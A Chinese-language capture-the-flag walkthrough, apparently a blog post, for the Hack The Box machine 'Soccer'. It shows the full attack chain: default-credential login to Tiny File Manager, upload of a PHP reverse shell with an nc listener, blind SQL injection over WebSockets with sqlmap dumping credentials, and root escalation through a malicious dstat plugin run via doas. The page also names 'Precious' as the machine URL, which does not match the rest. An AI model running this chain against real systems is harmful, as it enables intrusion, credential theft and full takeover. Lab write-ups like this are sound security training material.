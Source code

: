 ﻿
![在这里插入图片描述](https://img-blog.csdnimg.cn/3b18a58c2ef54ca68ff2b67d2152f030.png)


靶机网址：
```
https://app.hackthebox.com/machines/Precious
```
# 枚举
使用nmap枚举靶机
```
nmap -sC -sV 10.10.11.194
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f9f29bb981cd4a4e88a7c7bcfa2b507a.png)

机子开放了22，80和9091端口，我们本地dns解析这个域名
```
echo "10.10.11.194 soccer.htb" >> /etc/hosts
```
然后fuzz网站根目录
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -mc 200,301 -u http://soccer.htb/FUZZ
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/80f2b4a8c037414db4180abb2a973f60.png)

扫到一个目录，去网站上看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/98f46b9018934592aa5dbcb08623220e.png)

看起来这是一个后台的登录页面，这个后台的框架名叫Tiny File Manager，在github上是开源的
```
https://github.com/prasathmani/tinyfilemanager
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/da21acd51eb24ed2a45e5c962c6e290f.png)

在这下面可以看到默认的用户名和密码，我们登录试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/75db752534834aecb857ee38fbf8a6de.png)

登录后是一个文件上传的页面，我试了一下，发现可以上传文件的目录为/tiny/uploads

进入到这个目录，点击右上角的upload上传rev shell

我使用的rev shell：
```
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
```
需要更改ip和port参数

![在这里插入图片描述](https://img-blog.csdnimg.cn/f5b3e43e99044d5da7c2428c00115cc3.png)

然后nc监听这个端口，回到网页上传文件


![在这里插入图片描述](https://img-blog.csdnimg.cn/159ffc040874463c9a9ad342b548ea45.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/632f31379b024519a0d7e333e955602e.png)


上传成功后点击这个图标访问rev shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/ceb6ae9ac9874b71b55382c4741f7b23.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/7dd1dd331db04dd78a961899650eab71.png)

成功获得交互shell

现在使用linpeas脚本搜集主机信息
```
https://github.com/carlospolop/PEASS-ng/releases/tag/20221218
```
```
chmod +x linpeas.sh
./linpeas.sh
```

通过这个脚本，在这台机子上发现了很多漏洞，但是都用不了，应该是打补丁了

在下面，脚本列出的nginx默认配置里发现了一个子域名



![在这里插入图片描述](https://img-blog.csdnimg.cn/afd64afe47964e8a85c9e046aa420d7f.png)

我们本地dns解析这个域名

```
echo "10.10.11.194 soc-player.soccer.htb" >> /etc/hosts
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/1961c0cd33a2407da94bd225f0f19f2c.png)

# 通过WebSockets进行SQL注入

现在访问这个域名

![在这里插入图片描述](https://img-blog.csdnimg.cn/3f34d35c8ea445059f5a2f4605396a5a.png)

发现左上角有一个注册模块，我们注册一个账号

然后登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/c43eb8bfccf842bab3ea7da53cfce348.png)

登录后就会跳转到这个页面

![在这里插入图片描述](https://img-blog.csdnimg.cn/015370d08f524840a4b74ea21fb83a7f.png)

似乎是要检查我们的票证，通过查看这个页面的源代码，可以发现突破点

![在这里插入图片描述](https://img-blog.csdnimg.cn/b4958b20e5304029b0d7dc11633dcadd.png)

它使用的是WebSockets，然后将我们输入的发送到这个URL "ws://soc-player.soccer.htb:9001"

![在这里插入图片描述](https://img-blog.csdnimg.cn/a9a0a1981740462abefbfc8e767eb46a.png)

这里告诉我们，传递的参数为id，一会sql测试的时候需要用到它

现在需要通过WebSockets进行SQL注入测试，通过google，找到了这篇文章
```
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/06f22f65bcd44f25a01a4e4cacf33fcf.png)

我们将这个代码复制下来，新建一个python文件，并粘贴进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/84f8248bf24946e89dbb4490786823c2.png)

根据那个网页源代码，修改ws_server和data参数

然后安装websocket模块
```
pip3 install websocket-client
```

安装完成后运行脚本

```
python3 web_socket.py
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c640441f67f4fdf86b75c368586e8ee.png)

现在使用sqlmap进行测试
```
sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs
```
```
--dump-all：查找并转储找到的所有数据库
--exclude-sysdbs：不会在默认数据库上浪费时间
```
因为是时间盲注，所以需要等待几十分钟

![在这里插入图片描述](https://img-blog.csdnimg.cn/66b22c42d8b247388811c6e9fc6f8371.png)

现在得到用户名和密码了，使用ssh登录即可
```
ssh player@10.10.11.194
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e08abb1c68f64f609ea7fb4ee44d40b1.png)


根据之前linpeas脚本搜集到的信息，发现doas程序有suid权限，doas也不是默认安装的程序，根据HTB机子的规律，这个程序多半是突破点了

![在这里插入图片描述](https://img-blog.csdnimg.cn/bfe3e4bc248a4947aac61575402f0516.png)

# 什么是Doas
```
https://zh.m.wikipedia.org/zh-hans/Doas
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/dc6f5c9516a44896afebef83b6bd2357.png)

简单来说，Doas是一个与Sudo具有相同功能的软件

寻找doas软件的配置
```
find / -type f -name doas.conf 2>/dev/null
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/988934b2cc824040bf26ed9bf7e9ca02.png)

提示允许用户player用dstat使用root
# Dstat插件

通过查看dstat程序的官方文档，发现我们可以编写插件并执行，名称必须为dstat_*.py，插件存放的目录为/usr/local/share/dstat/

![在这里插入图片描述](https://img-blog.csdnimg.cn/28a13513594f4e638084036560eacf82.png)

我们可以往插件里写入rev shell获得root权限

我们移动到这个目录下，创建一个名为dstat_baimao.py的文件

```
cd /usr/local/share/dstat/
touch dstat_baimao.py
chmod 777 dstat_baimao.py
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/f3a91966a76e4e919691e8469f03b5be.png)

写入代码
```
import subprocess

subprocess.run(["bash"]) 
#启动一个新的 bash shell
```







然后使用Doas执行Dstat插件
```
doas /usr/bin/dstat --baimao
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6d9d79649dcb4aa1a7005b721809d87d.png)

成功获得root权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/f754200e76124dd88cde581744390c6e.png)

